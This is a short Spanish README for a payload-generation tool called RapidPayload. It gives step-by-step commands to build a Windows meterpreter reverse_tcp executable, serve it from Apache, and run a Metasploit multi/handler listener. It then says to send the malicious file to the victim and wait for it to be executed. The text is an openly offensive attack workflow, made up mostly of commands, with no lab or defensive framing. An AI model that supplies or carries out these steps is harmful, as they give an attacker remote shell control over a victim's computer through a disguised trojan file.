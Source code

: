 # RapidPayload
Es un programa para crear payload semiautomatico

## Windows
1. opcion 1 (windows)
2. opcion 3 (reverse_tcp)

### Configuracion 
1. LHOST (Id Kali)
2. LPORT 4444
3. FilenName test

### Se crea un archivo test.exe

4. Movemos el archivo al rservidor de apache:
   * mv test.exe /var/www/html
5. Levantamos apache:
   * service apache2 start
   * service apache2 status

### Metasploit
6. service postgresql start && msfdb init && msfconsole -q
7. use exploit/multi/handler
   
### Configuracion del modulo en metasploit
8. set PAYLOAD windows/meterpreter/reverse_tcp
9. set LHOST (id kali)
10. set LPORT 4444(puerto del archivo creado)
11. options (para confirmar los datos)
12. exploit -j(se ejecuta en 2do plano)
13. ES EL MOMENTO DE MANDAR EL ARCHIVO MALIOSO
14. QUEDA ESCUCHANDO HASTA QUE SE EJECUTE EN ARCHIVO EN EL EQUIPO VICTIMA 
